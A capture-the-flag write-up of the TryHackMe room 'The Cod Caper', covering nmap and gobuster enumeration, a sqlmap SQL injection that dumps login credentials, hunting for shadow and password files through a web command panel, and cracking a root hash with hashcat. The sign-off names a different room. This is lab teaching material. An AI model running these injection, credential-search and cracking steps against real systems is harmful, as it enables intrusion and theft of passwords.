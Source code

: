 # The Cod Caper
> 4lch3my | June 28, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP`
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

Now, we can use `SQLmap` to locate any SQL files/folders on this machine. To do this, we can run the follwing command: `sqlmap -u http://MACHINE_IP/administrator.php --forms --dump`. The `-u http://MACHINE_IP/administrator.php` option specifies the target URL of the web application. Replace `MACHINE_IP` with the actual IP address or hostname of the machine hosting the web application. The `/administrator.php` represents the specific page or endpoint being targeted for the SQL injection attack. The `--forms` option instructs sqlmap to identify and analyze HTML forms on the target page. And the `--dump` option tells sqlmap to retrieve and dump the data from the database tables that are vulnerable to the SQL injection attack. The tool will attempt to extract sensitive information such as usernames, passwords, and other data stored in the vulnerable database.

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```

And there we go. We have a found suspected admin username/password pair.

##### 5. Command Execution

Time to log-in. If you recall, we have previously found the "/administrator.php" page in our `GoBuster` scan. Let's visit it and try to login!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20The%20Cod%20Caper/images/admin_login.PNG?raw=true)


After we have successfully logged in, we are greated with a `command prompt` area.
Let's see, what secrets we can find. First we can run a basic "ls" command to list all files:

IMAGE: ls

Nothing interesting here. Moving on to `shadow` files. A shadow password file, also known as `/etc/shadow`, is a system file in Linux that stores encrypted user passwords and is accessible only to the root user, preventing unauthorized users or malicious actors from breaking into the system.
To list these out, we can use the `find / 2>>/dev/null | grep -i shadow` command:

IMAGE: shadow

This gives as a good idea, on how high priveledges does Pingu's Dad have on this system. It seems like they have full access. Time to look at some password files on the system.
To start off, we can list all the files on the system containing the phrase `pass` and then if we need, we can narrow it down later. To do this, we run the command `find / 2>>/dev/null | grep -i pass`

IMAGE: password

Wow, that is a lot of files, but if we take a very close look at files, we can see at the bottom a document called `/var/hidden/pass`. We can now `cat` this file, to find the ssh password. 

##### 10. SSH & Password Cracking

After the successfull login the server using `SSH` and grabing the password, we can try to crack it. First we need to determine the hash type, what can be done [HERE](https://hashcat.net/wiki/doku.php?id=example_hashes). Then we can actually crack it. We can use `John the Ripper` or `HashCat` for this task. I'll be using the later one: `hashcat -m 1800 -a 0 password_hash1.txt /usr/share/wordlists/rockyou.txt`
When you run this command, hashcat will perform a dictionary attack using the `rockyou.txt` wordlist. It will compare the hashed passwords in the `password_hash1.txt` file with the passwords in the wordlist, attempting to find a match.
If a match is found, hashcat will display the cracked password on the screen. However, if the password hash is strong or not present in the wordlist, the cracking process may not be successful.

IMAGE:CRACKED

And there we go! We have succesfully found the root password for the server!

#### Thank you for checking out my write-up about the THM room: Agent Sudo! If you are interested in other write-ups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my